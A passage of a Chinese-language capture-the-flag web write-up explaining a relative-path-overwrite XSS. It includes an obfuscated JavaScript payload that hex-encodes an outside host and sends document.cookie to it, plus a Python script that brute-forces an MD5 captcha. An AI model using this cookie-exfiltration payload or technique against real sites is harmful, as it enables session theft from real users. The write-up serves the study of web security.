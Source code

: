而且发现，当我们发一篇文章然后访问

```
http://39.107.33.96:20000/index.php/view/article/705/aadaasdasdas
```

文章id号后面的部分会被截断，所以当构造：

```
http://39.107.33.96:20000/index.php/view/article/705/a/..%2F..%2F..%2F
````

服务端解析正确，实际上返回的是view页面，而view页面中的../static/js/jquery.min.js把这个链接拼到url后：

```
http://39.107.33.96:20000/index.php/view/article/705/a/..%2F..%2F..%2F/../static/js/jquery.min.js
```

就是：

```
http://39.107.33.96:20000/index.php/view/article/705/a/static/js/jquery.min.js
```

705后面的内容被截断，于是你发的文章的内容直接就被当成js解析，不用尖括号呦！！！

#### 漏洞利用

- 这里html实体编码影响到了引号，本来想用jsfuck的，但是发现太长被截断了，所以改用数字拼
- 另外标题不填可以不产生`<h>`标签，js才不会报错

发文章，不写标题，文章内容如下：

```javascript

var shttp=[0x68,0x74,0x74,0x70,0x3A,0x2F,0x2F,0x31,0x30,0x33,0x2E,0x34,0x32,0x2E,0x32,0x38,0x2E,0x32,0x35,0x32,0x2F,0x62,0x2F,0x3F,0x63,0x6F,0x6F,0x6B,0x69,0x65,0x3D];

function decode(a){
var b=[];
for (i in a){
	b=b+String.fromCharCode(a[i]);
}
	return b;
}

window.open(decode(shttp)+document.cookie);
```

爆破验证码：

```python
import hashlib
for i in range(1000000):
 	fd = hashlib.md5()
 	fd.update(str(i))
 	x = fd.hexdigest()
 	if(x[0:6] == 'a24bec'):
  		print i
  		break
```
